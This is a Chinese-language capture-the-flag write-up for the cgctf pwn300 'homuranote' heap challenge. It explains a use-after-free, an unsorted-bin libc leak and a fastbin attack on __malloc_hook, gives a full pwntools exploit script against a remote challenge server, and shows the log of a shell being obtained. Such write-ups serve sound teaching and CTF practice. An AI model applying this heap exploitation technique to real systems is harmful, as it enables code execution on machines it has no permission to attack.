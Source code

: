 title: Homuranote
date: 1970-1-1
categories: 
- PWN
---
# cgctf pwn300

## 大概审查思路
- 据说这题是入门堆题,又是校队考核题目,入门一发堆吧
- 很经典的note结构,menu getnum switch-case选择功能
- checksec 查一下,能开的都开了.
- IDA打开后反编译,程序大概有5个功能,新建,删除,编辑,查看,退出
- 新建堆处很正常
- 删除堆,也就是free处,存在UAF
- 编辑处可以修改堆内的值

## 具体攻击思路
- fastbin attack劫持 \_malloc_hook_
- unsorted bin leak 程序基址
- 配合给好的libc文件进行攻击

## 具体攻击原理

### fastbin atacck
- 一般利用doublefree,但是此程序给了edit函数,而且可以UAF,所以攻击方式随意
- 此处建立起一个单向链表,只需要chunk1指向chunk2然后指向chunk1,则下一个分配的堆块,就可以在任意地点\(刚才edit写入或者doublefree后写入的\)

```python
addnote(0,"a"*0x30)#chunk 1
addnote(1,"b"*0x30)#chunk 2
free(0)
free(1)
free(0)
addnote(0,fake_chunk_add)#chunk 1
addnote(2,"a"*0x30)#chunk 2
addnote(3,"c"*0x30)#chunk 1
addnote(4,payload)#attack
```

```python
addnote(0,"a"*0x30)
free(0)
edit(0,fake_chunk_add)
addnote(0,"a"*0x30)
addnote(1,attack)
```

- 其实原理都差不多,都是利用fastbin内的内容与chunkhead之间在free和inuse时不同的布局来实现任意地址读写.

### unsorted bin leak
-  申请两个堆块后,free堆块时,假如大小范围大于max_fast,则内存空间被划分到unsorted bin中,此时,调试可知,此时堆块的指针是一起指向<main_arena+88>中的(fastbin为空时，unsortbin的fd和bk指向自身main_arena中，该地址的相对偏移值存放在libc中, 通过use after free后打印出main_arena的实际地址, 结合偏移值从而得到libc的加载地址)

### OneGadget
- 寻找现成的execvl("/bin/sh"),免去构造system("/bin/sh"),但是函数执行有条件,所以要多找几个onegadget尝试一下,最后覆写\_malloc\_hook\_,在下一次malloc时,即可getshell.

# 脚本

```python
from pwn import *

#r = process("./homuranote")
r = remote("45.76.173.177",6666)
main_arena_addr = 0x397B00
mallochook=0x397af0
oneGadget=0xd694f

def addnote(s):
	r.sendline("1")
	r.sendlineafter("Size:",str(len(s)))
	r.sendlineafter("Content:",s)

def show(index):
	r.sendline("2")
	r.sendlineafter("Index:",str(index))

def edit(index,s):
	r.sendline("3")
	r.sendlineafter("Index:",str(index))
	r.sendline(s)

def delete(index):
	r.sendline("4")
	r.sendlineafter("Index:",str(index))

#leak libc

success("START leak")
addnote("a"*0x7f)
addnote("b"*0x7f)
delete(0)
show(0)
a = r.recvline()
offset = u64(a[0:6].ljust(8,"\x00")) - 88
libc_base = offset - main_arena_addr
print "libcbase: %x"%libc_base
success("SUCCESS leak")

# fastbin attack

success("START FASTBIN ATTACK")

fake_chunk=p64(libc_base + mallochook-0x20-3) + 0x58*'\x00'
padding='\x00'*(0x10+3) + p64(libc_base + oneGadget) + '\x00'*(0x58-0x10-3)

addnote("a"*0x60)
delete(2)
edit(2,fake_chunk)

addnote("c"*0x60)
addnote(padding)

success("get shell")
r.interactive()
```

```
$ ls 
[1]+  Stopped                 python exp.py
mozhucy@ubuntu:~/Desktop/kh$ python exp.py
[+] Opening connection to 45.76.173.177 on port 6666: Done
[+] START leak
libcbase: 7f9858333000
[+] SUCCESS leak
[+] START FASTBIN ATTACK
[+] get shell
[*] Switching to interactive mode
Ok,index:4.
1.add
2.show
3.edit
4.delete
5.exit
choice>>$ 1
Size:$ 2
$ ls
flag94539
$ cat flag94539
flag{R3al1y_****_h3aP_****}
$  
```
